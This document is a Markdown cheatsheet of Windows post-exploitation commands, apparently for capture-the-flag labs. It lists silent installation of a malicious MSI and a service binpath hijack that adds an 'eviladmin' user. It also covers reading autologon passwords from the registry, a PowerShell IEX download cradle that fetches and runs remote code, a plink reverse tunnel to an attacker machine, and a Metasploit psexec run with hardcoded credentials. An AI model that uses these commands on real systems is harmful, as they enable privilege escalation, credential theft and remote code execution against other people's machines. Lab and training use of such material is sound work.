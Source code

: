 # Cheatsheet

## Extract ZIP
```
Add-Type -assembly
'system.io.compression.filesystem';[io.compression.zipfile]::ExtractToDirectory
("C:\backup.zip","C:\Example\")
```

## View File Systems
```
gdr -PSProvider 'FileSystem'
```

## Access shared volume
```
net use y: \\10.10.10.57\c$ /user:administrator 1234test
```

## Invoke command with credentials 
```
$user = '.\administrator';
$psw = '1234test';
$secpsw = ConvertTo-SecureString $psw -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $user, $secpsw
```
```
invoke-command -computername localhost -credential $credential
-scriptblock {cd C:\Users\Administrator\Desktop\;C:\Users\Administrator\Desktop\root.exe}
```
## Alternate Data Stream
- Listing: `dir /R`
- Find Streams: `​get-item -path *.* -stream *`
- Reading: `​powershell Get-Content -Path "hm.txt" -Stream "root.txt"`
- Reading: `get-content backup.zip -stream 'pass'`

## MSI

### Installing MSI
```
msiexec /quiet /qn /i malicious.msi
```
```
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```

## Services

- Registry entries: `HKLM\SYSTEM\CurrentControlSet\Services`
- View service properties: `sc qc "Vulnerable Service"`
- Restarting: `sc stop "Vulnerable Service"`
- Restart PC: `shutdown /r /t 0`
- Change binary path: `sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add`

### Keep alive
When a service starts in Windows operating systems, it must communicate with the `Service Control Manager`. If it’s not, `Service Control Manager` will terminates the process.

## Auto Save Password to PowerShell
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```
```
​$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)​

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
```
## Permissions

## View Permisions
```
cacls C:\Users\Administrator\Desktop\root.txt
```

### Grant Permissions
```
cacls C:\Users\Administrator\Desktop\root.txt /grant Alfred:F
```

## SSH from Windows to Attacker (Kali)

### Manual
From Windows:
```
plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8
```

From Attacker:
```
netstat -ano | grep 445
winexe -U Administrator //127.0.0.1 "cmd.exe"
```

### Metasploit
```
portfwd add -l 445 -p 445 -r 127.0.0.1
use exploit/windows/smb/psexec
 set SMBDOMAIN CHATTERBOX
 set SMBUSER Administrators
 set SMBPASS Welcome1!
 set RHOST 127.0.0.1
exploit
```
